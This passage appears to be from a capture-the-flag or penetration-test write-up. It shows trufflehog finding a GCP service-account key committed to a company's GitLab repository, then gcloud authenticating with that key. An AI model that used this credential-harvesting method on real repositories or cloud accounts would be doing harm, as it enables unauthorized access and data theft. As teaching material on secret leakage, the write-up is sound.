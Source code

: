 Let's try using `trufflehog`
```
└─$ trufflehog git https://gitlab.com/gigantic-retail/dev-site
🐷🔑🐷  TruffleHog. Unearth your secrets. 🐷🔑🐷

2025-08-20T00:02:47+06:00       info-0  trufflehog      running source  {"source_manager_worker_id": "kzzXo", "with_units": true}
2025-08-20T00:02:47+06:00       info-0  trufflehog      scanning repo   {"source_manager_worker_id": "kzzXo", "unit_kind": "dir", "unit": "/tmp/trufflehog-13430-4029511530", "repo": "https://gitlab.com/gigantic-retail/dev-site"}
✅ Found verified result 🐷🔑
Detector Type: GCP
Decoder Type: PLAIN
Raw result: appdev@gr-proj-1.iam.gserviceaccount.com
Project: gr-proj-1
Private_key_id: 06c67689ccfcc4337ffa0d97e1550ea911d45de1
Rotation_guide: https://howtorotate.com/docs/tutorials/gcp/
Commit: 5dd2511b74c5b1fff666cab6a79f4604a9789a0e
Email: Sara Lopez <sara@gigantic-retail.com>
File: storage/token.json
Line: 6
Repository: https://gitlab.com/gigantic-retail/dev-site
Timestamp: 2024-01-09 00:03:47 +0000
Analyze: Run `trufflehog analyze` to analyze this key's permissions
                                                                                                                                                                                                                
Found unverified result 🐷🔑❓
Detector Type: PrivateKey
Decoder Type: PLAIN
Raw result: -----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDZ7n6jvXwSoM3/                                                                                                                                                <REDACTED>                                                                                                                                                                                           
-----END PRIVATE KEY-----
Commit: 5dd2511b74c5b1fff666cab6a79f4604a9789a0e
Email: Sara Lopez <sara@gigantic-retail.com>
File: storage/token.json
Line: 1
Repository: https://gitlab.com/gigantic-retail/dev-site
Timestamp: 2024-01-09 00:03:47 +0000
                                                                                                                                                                                                                                            
2025-08-20T00:02:48+06:00       info-0  trufflehog      finished scanning       {"chunks": 52, "bytes": 283132, "verified_secrets": 1, "unverified_secrets": 1, "scan_duration": "8.33483587s", "trufflehog_version": "3.90.5", "verification_caching": {"Hits":0,"Misses":3,"HitsWasted":0,"AttemptsSaved":0,"VerificationTimeSpentMS":3003}}

```

Now, we can use Google Cloud CLI to authenticate using found credentials
```
└─$ gcloud auth activate-service-account --key-file=token.json
Activated service account credentials for: [appdev@gr-proj-1.iam.gserviceaccount.com]

```
